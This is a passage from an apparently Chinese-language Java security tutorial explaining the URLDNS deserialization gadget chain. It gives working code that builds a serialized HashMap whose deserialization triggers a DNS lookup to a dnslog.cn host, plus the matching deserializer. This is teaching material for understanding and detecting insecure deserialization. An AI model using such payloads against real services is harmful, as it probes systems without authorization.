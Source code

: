 整个调用链

```plain
HashMap->readObject()
HashMap->hash()
URL->hachCode()
URLStreamHandler->hachCode()
URLStreamHandler->getHostAddress()
InetAddress.getByName()
```

## 7.4反序列化利用

```plain
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;
public class DnsTest {
 public static void main(String[] args) throws Exception {
   HashMap<URL,Integer> hashmap =new HashMap<URL,Integer>();
   URL url = new URL("http://nxfsji.dnslog.cn");
   Class c = url.getClass();
   Field fieldhashcode=c.getDeclaredField("hashCode");
   fieldhashcode.setAccessible(true);
   fieldhashcode.set(url,222); //第一次查询的时候会进行缓存，所以让它不等于-1
   hashmap.put(url,2);
   fieldhashcode.set(url,-1); //让它等于-1 就是在反序列化的时候等于-1 执行dns查询
   serialize(hashmap);
 }
 public static void serialize(Object obj) throws IOException {
   ObjectOutputStream oos = new ObjectOutputStream(new
FileOutputStream("ser.bin"));
   oos.writeObject(obj);
   oos.close();
 }
}
```

进行反序列化

```plain
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
public class RrefilectDns{
 public static void main(String[] args) throws Exception{
   unserialize();
 }
 public static void unserialize() throws IOException, ClassNotFoundException
{
   ObjectInputStream ois = new ObjectInputStream(new
FileInputStream("ser.bin"));
   ois.readObject();
   ois.close();
 }
}
```
